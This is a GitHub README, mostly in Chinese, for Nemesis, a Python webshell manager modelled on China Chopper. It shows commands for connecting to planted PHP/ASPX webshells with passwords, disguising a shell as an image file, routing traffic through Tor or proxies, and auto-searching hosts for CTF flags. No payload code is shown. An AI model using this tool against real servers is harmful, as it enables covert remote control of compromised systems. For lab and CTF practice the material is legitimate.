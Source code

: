 # Nemesis
命令行网站管理工具（cai dao）

名字取义自北欧神话的复仇女神`Nemesis`

***

运行于Python 3.x

支持：

- [x] PHP + Linux

- [x] PHP + Windows

- [x] Aspx + Windows

- [ ] Asp + Windows

- [ ] Jsp + Windows

- [ ] Jsp + Linux


`payload`为`fiddler`抓包菜刀后轻微简化

***

How to use:

```
> git clone https://github.com/EddieIvan01/Nemesis.git
> cd Nemesis
> python3 nemesis.py http://127.0.0.1/shell.php pass

         _   _                                   _
        | \ | |   ___   _ __ ___     ___   ___  (_)  ___
        |  \| |  / _ \ | '_ ` _ \   / _ \ / __| | | / __|
        | |\  | |  __/ | | | | | | |  __/ \__ \ | | \__ \
        |_| \_|  \___| |_| |_| |_|  \___| |___/ |_| |___/

             /* Webshell Manager */

[+]Initialize...
[+]Set URL => http://127.0.0.1/shell.php
[+]Set Language => php
[+]Set Encode => utf-8
/var/www> ls
_index.php
ins.py
result.xls
shell.php
test

/var/www> exit
```

***

Usage:

```
usage:
  Manager mode(for manage shells): ./nemesis.py [-h] [-p PROXY]
  Normal mode(for only one shell): ./nemesis.py URL PASSWD [-h] [-l LANG] [-p PROXY]

optional arguments:
  -h, --help            show this help message and exit
  -l LANG, --lang LANG  if webshell's language is diffrent to file suffix
                        name, use it
  -p PROXY, --proxy PROXY
                        requests' proxy, e.g: socks5://127.0.0.1:1080
```



两种模式：

+ Manager模式：

  ```
  # 直接启动
  # 读取本地config.json中的Webshell list
  
  > python3 nemesis.py
           _   _                                   _
          | \ | |   ___   _ __ ___     ___   ___  (_)  ___
          |  \| |  / _ \ | '_ ` _ \   / _ \ / __| | | / __|
          | |\  | |  __/ | | | | | | |  __/ \__ \ | | \__ \
          |_| \_|  \___| |_| |_| |_|  \___| |___/ |_| |___/
  
               /* Webshell Manager */
  
  [+]Initialize...
  
  [*]Manager mode command:
       enter [index]                       --choose a shell to use
       set [index]:[encode | pwd] xxx      --change shells' encode or passwd
       flag                                --find flag in ctf
       exit
  
  [*]Webshell list
  [0] URL => http://127.0.0.1/shell.php   PWD =>pass   OS => win   ENCODE => gbk
  [1] URL => http://192.168.43.100/shell.php   PWD =>pass   OS => linux   ENCODE => utf-8
  [2] URL => http://192.168.43.105/shell.php   PWD =>pass   OS => win   ENCODE => gbk
  [3] URL => http://192.168.43.109/shell.php   PWD =>pass   OS => win   ENCODE => gbk
  
  @Nemesis>
  ```

  Manager Mode Usage

  + enter [index]   进入一个Webshell交互式终端
  + set [index]:[encode | pwd] xxx   修改Webshell的编码或passwd
  + flag   自动寻找Flag（CTF专用）
  + exit   退出

+ Shell模式

  ```
  # 进入单一shell
  > python3 nemesis.py http://127.0.0.1/shell.php pass
  ```



***

Tips：

+ 默认Webshell语言为URL后缀，假如连接的是图片马 or 混淆后缀：使用`-l`或`--lang`

  ```
  > python3 nemesis.py http://127.0.0.1/shell.php.jpg pass -l php
  ```

+ 连接Webshell时使用代理：`-p`或`--proxy`

  ```
  # SSR
  > python3 nemesis.py http://127.0.0.1/shell.php pass -p socks5://127.0.0.1:1080
  
  # BurpSuite
  > python3 nemesis.py http://127.0.0.1/shell.php pass -p http://127.0.0.1:8080
  
  # Tor
  > python3 nemesis.py -p socks4://127.0.0.1:9050
  ```

+ CTF中一键寻找Flag，有几次拿到shell了确花了半天找flag究竟在根目录还是Web根目录还是在哪哪哪儿，故写了此功能，只能在Manager Mode运行，寻找所有名字带flag的文件，读取后正则匹配`/(\w+\{[-\w]+\})/`：

  ```
  > python3 nemesis.py
           _   _                                   _
          | \ | |   ___   _ __ ___     ___   ___  (_)  ___
          |  \| |  / _ \ | '_ ` _ \   / _ \ / __| | | / __|
          | |\  | |  __/ | | | | | | |  __/ \__ \ | | \__ \
          |_| \_|  \___| |_| |_| |_|  \___| |___/ |_| |___/
  
               /* Webshell Manager */
  
  [+]Initialize...
  
  [*]Manager mode command:
       enter [index]                       --choose a shell to use
       set [index]:[encode | pwd] xxx      --change shells' encode or passwd
       flag                                --find flag in ctf
       exit
  
  [*]Webshell list
  [0] URL => http://127.0.0.1/shell.php   PWD =>pass   OS => win   ENCODE => gbk
  
  @Nemesis> flag
  [+]Enter index: 0
  [+]Enter dir: f
  
  [+]Flag files:
  f:\flag
  f:\HackTo0ls\审计\GitHack\web.jarvisoj.com_32798\templates\flag.php
  f:\tim_recv_file\MobileFile\flag.py
  f:\tim_recv_file\MobileFile\flag.txt
  
  [+]Flag found in f:\flag: abc{asdasd798yh9da7yas9dy7}
  
  [+]No flag found in: f:\HackTo0ls\审计\GitHack\web.jarvisoj.com_32798\templates\flag.php
  
  [+]No flag found in: f:\tim_recv_file\MobileFile\flag.py
  
  [+]No flag found in: f:\tim_recv_file\MobileFile\flag.txt
  
  
  [*]Webshell list
  [0] URL => http://127.0.0.1/shell.php   PWD =>ck   OS => win   ENCODE => gbk
  
  @Nemesis>
  ```
